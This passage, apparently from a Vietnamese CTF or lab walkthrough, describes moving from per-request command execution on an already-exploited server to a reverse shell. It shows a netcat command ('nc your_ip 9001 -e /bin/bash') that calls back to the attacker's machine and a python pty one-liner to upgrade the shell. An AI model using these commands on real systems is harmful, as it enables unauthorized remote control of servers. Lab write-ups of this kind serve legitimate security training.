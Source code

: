 Bây giờ chúng ta đã exploit thành công con server này, như có một vấn đề là mỗi lần chúng ta sử dụng cmd lại một lần gửi request thì nó hơi bất tiện ⇒ Phương pháp lúc này chúng ta sẽ sử dụng `reverse shell` về máy tính của chúng ta.

```bash
nc your_ip 9001 -e /bin/bash
# ncat or busybox
```

![14.png](img/14.png)

Ở phía máy chúng ta sẽ setup như sau: 

![15.png](img/15.png)

Ở đây khi connect thì nhìn vào dòng lệnh nó trống không…Chúng ta cần chỉnh một xíu để dễ nhìn và sử dụng hơn bằng các tạo một internal bash:

```bash
python -c 'import pty;pty.spawn("bash")'
```
